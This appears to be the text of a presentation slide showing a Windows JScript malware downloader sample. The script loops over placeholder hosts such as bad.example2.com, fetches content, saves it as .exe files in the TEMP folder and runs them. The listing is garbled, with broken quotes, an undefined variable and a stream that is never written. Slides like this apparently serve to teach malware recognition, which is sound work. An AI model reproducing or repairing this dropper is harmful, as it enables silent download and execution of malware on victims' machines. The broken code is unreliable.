

var nasdh="99";
var nasdj="bad.example2.com badder.example.com".replace(nasdh,'').split(" ");

var nasdi=WScript.CreateObject("WScript.Shell");

var nasmm=nasdi.ExpandEnvironmentStrings("%TEMP%")+ “\\’’+’’107’’ ;
 var naddk=WScript.CreateObject ("MSXML2.XMLHTTP");

var nasbv=WScript.CreateObject ("ADODB.Stream");
var ld = 0;
for (var nasd8=ld;nasd8<nasdj.length;nasd8++) {
naddk.open("GET","http’’://"+nasdj[nasd8]+"/counter/?id="+nasd8+
"&rnd=711791"+n, false);

	naddk.send();

	if (naddk.status==(100)){
	nasbv.open();

	nasbv.saveToFile(nasmm+nasd8+".exe",2);
	nasdi.Run(nasmm+nasd8+".exe",1,0); } }